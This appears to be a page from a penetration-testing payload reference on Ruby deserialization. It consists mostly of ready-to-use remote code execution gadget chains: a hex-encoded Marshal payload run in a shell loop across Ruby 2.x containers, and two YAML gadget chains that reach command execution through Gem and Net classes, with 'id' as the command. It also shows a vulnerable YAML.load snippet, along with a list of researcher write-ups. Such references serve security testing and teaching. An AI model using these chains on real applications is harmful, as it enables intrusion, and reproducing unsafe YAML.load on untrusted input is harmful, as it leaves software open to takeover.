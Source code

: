 # Ruby Deserialization

> Ruby deserialization is the process of converting serialized data back into Ruby objects, often using formats like YAML, Marshal, or JSON. Ruby's Marshal module, for instance, is commonly used for this, as it can serialize and deserialize complex Ruby objects.


## Summary

* [Marshal.load](#marshalload)
* [Yaml.load](#yamlload)
* [References](#references)


## Marshal.load

Script to generate and verify the deserialization gadget chain against Ruby 2.0 through to 2.5

```ruby
for i in {0..5}; do docker run -it ruby:2.${i} ruby -e 'Marshal.load(["0408553a1547656d3a3a526571756972656d656e745b066f3a1847656d3a3a446570656e64656e63794c697374073a0b4073706563735b076f3a1e47656d3a3a536f757263653a3a537065636966696346696c65063a0a40737065636f3a1b47656d3a3a5374756253706563696669636174696f6e083a11406c6f616465645f66726f6d49220d7c696420313e2632063a0645543a0a4064617461303b09306f3b08003a1140646576656c6f706d656e7446"].pack("H*")) rescue nil'; done
```

## Yaml.load

Vulnerable code

```ruby
require "yaml"
YAML.load(File.read("p.yml"))
```

Universal gadget for ruby <= 2.7.2:

```ruby
--- !ruby/object:Gem::Requirement
requirements:
  !ruby/object:Gem::DependencyList
  specs:
  - !ruby/object:Gem::Source::SpecificFile
    spec: &1 !ruby/object:Gem::StubSpecification
      loaded_from: "|id 1>&2"
  - !ruby/object:Gem::Source::SpecificFile
      spec:
```

Universal gadget for ruby 2.x - 3.x.

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```


## References

- [Ruby 2.X Universal RCE Deserialization Gadget Chain - Luke Jahnke - November 8, 2018](https://www.elttam.com.au/blog/ruby-deserialization/)
- [Universal RCE with Ruby YAML.load - Etienne Stalmans (@_staaldraad) - March 2, 2019](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)
- [Ruby 2.x Universal RCE Deserialization Gadget Chain - PentesterLab - 2024](https://pentesterlab.com/exercises/ruby_ugadget/course)
- [Universal RCE with Ruby YAML.load (versions > 2.7) - Etienne Stalmans (@_staaldraad) - January 9, 2021](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/)
- [Blind Remote Code Execution through YAML Deserialization - Colin McQueen - June 9, 2021](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)